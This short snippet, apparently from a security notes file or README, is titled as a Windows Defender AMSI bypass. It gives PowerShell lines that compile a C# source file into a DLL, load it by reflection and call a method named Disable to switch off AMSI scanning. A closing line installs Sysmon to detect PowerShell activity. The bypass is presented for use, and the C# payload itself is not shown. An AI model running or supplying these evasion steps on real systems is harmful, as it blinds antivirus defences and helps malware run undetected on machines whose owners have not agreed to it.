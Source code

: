 
#Bypass Defender AV AMSI.dll

Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -OutputAssembly "Source.dll"
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\\Source.dll"))
[BP.AMS]::Disable()


#detect powershell using sysmon and wazuh

Sysmon64.exe -accepteula -i sysconfig.xml
